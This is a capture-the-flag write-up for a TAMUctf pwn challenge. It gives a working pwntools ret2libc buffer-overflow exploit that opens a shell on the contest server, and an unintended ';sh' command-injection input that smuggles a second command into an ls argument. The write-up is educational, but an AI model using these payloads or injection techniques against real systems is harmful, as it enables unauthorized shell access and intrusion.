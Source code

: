 ## Pwn4 - Pwn

**Description:** ```nc pwn.tamuctf.com 4324```
**Challenge:** : pwn4
**Difficulty:** medium
**Solved by:** Neolex  

**Solution:**  
The vulnerability is, again, a call to the vulnerable **gets** function. We need 37 bytes to be send to overwrite the return address. This time we don't have a print_flag function so we're going to use ret2libc to call **system** with the **/bin/sh**  strings :
Let's find a call to system  : 
```
.text:080485AD                 call    _system
```
The address is 0x080485AD. now let's find an adress of a **/bin/sh** function in GDB : 
```
gdb-peda$ searchmem /bin/sh
Searching for '/bin/sh' in: None ranges
Found 2 results, display max 2 items:
pwn4 : 0x804a034 ("/bin/sh")
```
the address is 0x804a034
Here is the exploit code :
```python
from pwn import *

system = 0x080485AD
binsh = 0x804a034

p = remote('pwn.tamuctf.com', 4324)
p.recvuntil('ls:')

payload = "A"*37
payload += p32(system)
payload += p32(binsh)
p.sendline(payload)
p.interactive()
```
run the exploit : 
```
$ python exploit.py                         
[+] Opening connection to pwn.tamuctf.com on port 4324: Done
[*] Switching to interactive mode

Result of ls AAAAAAAAAAAAAAAAAAAAAAA:
$ ls
flag.txt
pwn4
$ cat flag.txt
gigem{5y573m_0v3rfl0w}
```
**Unintended Solution:**  
 the was an unintended solution to this challenge by just sending : ";sh" and we get a shell.
The issue here was that the input was print inside the string "ls %s" so if we stop the ls command with **;** and call sh command we get a shell :
```
$ nc pwn.tamuctf.com 4324
ls as a service (laas)(Copyright pending)
Enter the arguments you would like to pass to ls:
;sh
Result of ls ;sh:
flag.txt
pwn4
ls
flag.txt
pwn4
cat flag.txt
gigem{5y573m_0v3rfl0w}
```
**Flag:**  
gigem{5y573m_0v3rfl0w}

